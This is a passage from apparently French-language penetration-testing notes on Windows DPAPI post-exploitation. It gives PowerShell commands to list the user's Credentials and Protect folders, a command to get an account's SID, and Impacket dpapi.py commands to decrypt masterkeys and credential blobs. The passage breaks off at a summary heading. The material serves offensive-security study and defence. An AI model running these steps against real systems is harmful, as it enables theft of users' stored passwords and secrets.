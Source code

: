 ***

### <mark style="color:blue;">🧪 VI. Extraction Post-Exploitation</mark>

#### <mark style="color:green;">1.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Extraire les DPAPI blobs**</mark>

Avec un accès disque :

```powershell
Get-ChildItem "$env:APPDATA\Microsoft\Credentials" -Force
```

#### 2. **Récupérer les masterkeys**

```powershell
Get-ChildItem "$env:APPDATA\Microsoft\Protect" -Recurse
```

***

### <mark style="color:blue;">🔓 VII. Déchiffrement DPAPI (Post-exploitation)</mark>

Pour déchiffrer :

#### <mark style="color:green;">1. Récupérer le SID :</mark>

```powershell
Get-ADUser john | Select-Object SID
```

#### <mark style="color:green;">2. Utiliser Impacket</mark> <mark style="color:green;"></mark><mark style="color:green;">`dpapi.py`</mark> <mark style="color:green;"></mark><mark style="color:green;">:</mark>

```bash
dpapi.py masterkey -file <masterkey_file> \
  -sid <S-1-5-21-...> \
  -password '<user_password>'
```

<mark style="color:green;">Puis :</mark>

```bash
dpapi.py credential -file <blob_file> -key <decrypted_masterkey>
```

***

### <mark style="color:blue;">💥 VIII. Résumé – Comment tout s’imbrique :</mark>
